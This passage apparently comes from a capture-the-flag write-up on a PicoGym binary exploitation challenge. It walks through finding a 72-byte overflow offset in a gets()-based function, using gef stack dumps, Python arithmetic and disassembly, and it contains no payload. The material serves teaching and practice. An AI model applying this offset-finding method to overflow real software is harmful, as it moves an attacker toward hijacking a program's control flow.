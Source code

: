 - Run `telescope` command to inspect the stack

```terminal
gef➤  tele
0x00007fffffffdcd0│+0x0000: 0x00007f0041414141 ("AAAA"?)         ← $rax, $rsp
0x00007fffffffdcd8│+0x0008: 0x00007ffff7e3f82a  →  <puts+490> cmp eax, 0xffffffff
0x00007fffffffdce0│+0x0010: 0x0000000000000000
0x00007fffffffdce8│+0x0018: 0x0000000000000000
0x00007fffffffdcf0│+0x0020: 0x00007fffffffde58  →  0x00007fffffffe1c1  →  "/home/kali/CTF_Practice/PicoGym/BinaryExploitation[...]"                                                                                                     
0x00007fffffffdcf8│+0x0028: 0x00007fffffffdd40  →  0x0000000000000001
0x00007fffffffdd00│+0x0030: 0x0000000000000000
0x00007fffffffdd08│+0x0038: 0x00007fffffffde68  →  0x00007fffffffe206  →  "COLORFGBG=15;0"
0x00007fffffffdd10│+0x0040: 0x00007fffffffdd40  →  0x0000000000000001    ← $rbp
0x00007fffffffdd18│+0x0048: 0x0000000000401338  →  <main+102> mov eax, 0x0
```
- `<main+102> mov eax, 0x0` is the line setting return address to 0, so the return address is at `0x00007fffffffdd18`.

- The buffer starts at the address `0x00007fffffffdcd0`.

- Calculate the offset using Python

```terminal
$ python
>>> 0x00007fffffffdd18-0x00007fffffffdcd0
72
```
- The offset is 72 bytes.

- **Alternatives to get the offset**

1. Inspecting Assembly Language

```terminal
$ gdb vuln
gef➤  disas vuln
Dump of assembler code for function vuln:
   0x00000000004012b2 <+0>:     endbr64
   0x00000000004012b6 <+4>:     push   rbp
   0x00000000004012b7 <+5>:     mov    rbp,rsp
   0x00000000004012ba <+8>:     sub    rsp,0x40
   0x00000000004012be <+12>:    lea    rax,[rbp-0x40]
   0x00000000004012c2 <+16>:    mov    rdi,rax
   0x00000000004012c5 <+19>:    mov    eax,0x0
   0x00000000004012ca <+24>:    call   0x401100 <gets@plt>
   0x00000000004012cf <+29>:    nop
   0x00000000004012d0 <+30>:    leave
   0x00000000004012d1 <+31>:    ret
End of assembler dump.
```

By inspecting the code, we can know that the program allocates 0x40 (64 in decimal) bytes to the stack, including the `rbp` which is 8 bytes, so the offset is 72 bytes.
